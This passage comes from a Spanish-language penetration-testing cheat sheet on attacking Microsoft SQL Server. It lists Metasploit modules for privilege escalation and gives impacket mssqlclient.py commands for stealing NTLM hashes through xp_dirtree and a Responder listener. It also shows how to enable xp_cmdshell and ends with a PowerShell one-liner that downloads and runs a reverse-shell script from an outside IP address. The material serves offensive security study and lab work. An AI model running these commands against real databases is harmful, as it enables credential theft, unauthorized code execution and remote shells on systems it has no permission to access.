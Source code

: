 ### De db\_owner a sysadmin

Si tienes los credenciales de un db\_owner puedes alcanzar privilegios de sysadmin y ejecutar comandos:

```
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```

### Privilegio IMPERSONATE

Este privilegio puede llevar a escalada de privilegios en MSSQL.

```
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```

### MSSQL para persistencia

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-persistence-part-1-startup-stored-procedures" %}
Fuente
{% endembed %}

## TENIENDO CREDENCIALES

### Mssqlclient.py

Se puede utilizar el impacket mssqlclient.py para utilizar el servicio:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

#Once logged in you can run queries:
SQL> select @@ version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Solve problem if no code executes
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```
